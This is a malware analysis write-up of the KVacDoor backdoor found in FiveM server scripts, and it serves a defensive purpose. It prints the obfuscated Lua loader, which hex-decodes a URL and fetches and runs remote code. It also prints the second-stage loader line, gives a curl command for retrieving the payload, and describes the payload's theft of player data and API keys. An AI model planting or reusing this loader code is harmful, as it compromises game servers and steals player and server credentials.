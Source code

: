## 1. Introduction
KVacDoor is a really used FiveM and Garry's Mod server manager, boasting features such as 

> **Lua Script**
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

The panel's website: https://kvacdoor.cz

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the code and method used are almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
If that looks familiar, that's because it's the same code (with the link changed of course) used by the cipher panel backdoor - 
I'd recommend reading it before continuing one, though I will explain briefly how the code works
In-short the `random_char` table is a link, which gets interpreted by `str_utf8()` which runs as an http request on the server, giving access to it.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

cURL-ing this link grants us the payload code:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts seem to grab all relevant info like licenses, IPs, identifiers from the players in your server, and also stealing API keys from the server .cfg
It also overrides the `chatMessage` event
It grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the OS and only in the former 3 locations.
Then reseting any API keys you have put in your server.cfg (like steam, rcon passwords)
Then reinstalling your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.
